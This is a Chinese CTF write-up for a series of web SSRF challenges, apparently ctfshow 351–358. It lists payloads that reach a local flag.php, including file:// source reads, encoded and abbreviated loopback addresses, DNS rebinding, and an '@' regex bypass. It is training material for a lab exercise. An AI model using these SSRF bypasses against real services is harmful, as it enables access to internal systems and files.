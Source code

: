 351
payload:
post: url=http://127.0.0.1/flag.php
或者使用 file 伪协议去读取文件
post: url=file:///var/www/html/index.php 查看源码


352
url=http://localhost/flag.php
url=http://127.1/flag.php
都可以拿到 flag

353
127.0.0.1
十进制整数：url=http://2130706433/flag.php
十六进制：url=http://0x7F.0.0.1/flag.php
八进制：url=http://0177.0.0.1/flag.php
十六进制整数：url=http://0x7F000001/flag.php

其他方法

缺省模式：127.0.0.1写成127.1
CIDR：url=http://127.127.127.127/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php

354


355
http://127.1/flag.php


356
要求长度小于3
payload:http://0/flag.php
0在linux系统中会解析成127.0.0.1在windows中解析成0.0.0.0


357
gethostbyname — 返回主机名对应的 IPv4地址
DNS Rebinding
> 在网页浏览过程中，用户在地址栏中输入包含域名的网址。浏览器通过DNS服务器将域名解析为IP地址，然后向对应的IP地址请求资源，最后展现给用户。而对于域名所有者，他可以设置域名所对应的IP地址。当用户第一次访问，解析域名获取一个IP地址；然后，域名持有者修改对应的IP地址；用户再次请求该域名，就会获取一个新的IP地址。对于浏览器来说，整个过程访问的都是同一域名，所以认为是安全的。这就造成了DNS Rebinding攻击。

358

正则表达式的意思是以http://ctf.开头，以show结尾。
payload:http://ctf.@127.0.0.1/flag.php?show
